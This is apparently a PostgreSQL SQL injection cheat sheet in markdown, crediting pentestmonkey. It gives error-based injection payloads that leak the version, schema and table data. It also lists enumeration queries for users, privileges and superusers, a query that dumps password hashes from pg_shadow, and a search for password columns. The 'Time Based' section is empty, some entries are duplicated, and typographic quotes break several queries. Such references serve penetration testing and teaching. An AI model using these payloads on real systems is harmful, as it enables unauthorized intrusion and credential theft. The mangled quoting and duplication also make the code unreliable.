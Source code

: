 # PostgresSQL

## PostgreSQL Comments
```
--
/**/ 
--------------------------------------------------
SELECT 1; –comment
SELECT /*comment*/1;
```

## PostgreSQL Error Based - Basic
```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```
## PostgreSQL Time Based


# ----------------------------------------------------------

### Version	
``` 
SELECT version()
```
### Comments	
```
SELECT 1; –comment
SELECT /*comment*/1;
```
### Current User	
```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```
### List Users	
```
SELECT usename FROM pg_user
```
### List Password Hashes
```
SELECT usename, passwd FROM pg_shadow — priv
```
### Password Cracker	
```
MDCrack can crack PostgreSQL’s MD5-based passwords.
```
### List Privileges	
```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```
### List DBA Accounts
```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```
### Current Database	
```
SELECT current_database()
```
### List Databases	
```
SELECT datname FROM pg_database
```
### List Columns	
```
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)
```
### List Tables	
```
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)
Find Tables From Column Name	If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;
```
List Tables	
```
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)
```
### Find Tables From Column Name	
```
If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;
```
### Select Nth Row	
```
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from 0
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;
```
### Select Nth Char	
```
SELECT substr(‘abcd’, 3, 1); — returns c
```
### Bitwise AND	
```
SELECT 6 & 2; — returns 2
SELECT 6 & 1; –returns 0
```
### ASCII Value -> Char	
```
SELECT chr(65);
```
### Char -> ASCII Value	
```
SELECT ascii(‘A’);
```
### Casting	
```
SELECT CAST(1 as varchar);
SELECT CAST(’1′ as int);
```
### String Concatenation	
```
SELECT ‘A’ || ‘B’; — returnsAB
```
## References:
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet
